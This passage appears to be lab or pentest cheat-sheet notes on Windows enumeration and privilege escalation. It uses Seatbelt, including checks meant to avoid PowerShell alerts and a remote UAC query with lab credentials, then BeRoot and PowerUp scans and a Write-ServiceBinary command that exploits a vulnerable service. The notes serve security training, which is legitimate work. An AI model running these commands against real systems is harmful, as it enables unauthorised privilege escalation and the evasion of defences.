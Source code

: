         * PowerShell - This command let's us know if defensive technologies for PowerShell are enabled. If they are not enabled, we might be able to use PowerShell tools. If the defenses are enabled, then it may be best to avoid PowerShell so we don't trigger alerts.
        ```
        Seatbelt.exe -q PowerShell
        ```
### Remote Usage
* windows
    * remote usage
    ```
    Seatbelt.exe -q | findstr +
    ```
    * run the UAC module
    ```
    Seatbelt.exe -q UAC -computername=10.130.10.25 -username=hiboxy\bgreen -password=Password1
    ```
<br>

# Windows Privilege Escalation
### Run beRoot.exe
* windows
    * find possible privilege escalation issues
    ```
    cd C:\Tools\BeRoot
    beRoot.exe
    ```

### Run PowerUp.ps1
* windows
    * find possible privilege escalation issues
    ```
    cd C:\Tools
    Import-Module .\PowerUp.ps1
    R
    ```
    * run the checks
    ```
    Invoke-AllChecks
    ```

### Exploiting the vulnerability
* windows
    * open the services.msc and look at the vulnable service's path
    ```
    services.msc
    ```
    * exploit
    ```
    Write-ServiceBinary -ServiceName 'Video Stream' -Path 'C:\Program Files\VideoStream\1337.exe'
    ```
<br>
